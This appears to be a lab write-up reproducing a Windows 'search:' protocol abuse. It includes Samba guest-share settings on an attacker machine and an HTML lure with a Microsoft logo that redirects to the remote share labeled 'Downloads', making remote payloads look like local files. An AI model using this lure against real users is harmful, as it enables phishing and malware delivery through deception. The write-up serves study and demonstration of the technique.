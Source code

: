 - ## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

- ## Attacker's Machine
- OS - Ubuntu noble 24.04 x86_64
- Kernel - Linux 6.8.0-35-generic
## Setting Up

#### Attacker's Machine
- A SMB share needs to be setup on the Attacker's machine.
- The shared folder should be accessible by guests.
- SMB version needs to be forces between 2 and 3.
```Text
client min protocol = SMB2
client max protocol = SMB3
```
- The shared folder needs to be set to guest mode.
```Text
[Share]
path = /home/share
public = yes
guest only = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
```
- For testing purposes, there is a text file ( Hacked.txt )  in the folder.![](Attachments/Pasted%20image%2020240722004846.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=hacked&amp;crumb=location:\\x-VBOX\Share&amp;displayname=Downloads"
    <p><a href="search:query=hacked&amp;crumb=location:\\x-VBOX\Share\&amp;displayname=Downloads">Untitled</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240722005020.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240722005156.png)
	1. Windows has searched for "hacked" .
	2. It appears as if the file is in "Downloads" .


## Notes
- Http servers didn't work for the exploit. '/' and'\\' differences. Need to use SMB.
- Default linux Samba shares are not detected by windows as they use SMB1. SMB V2 & V3 needs to be forced in settings.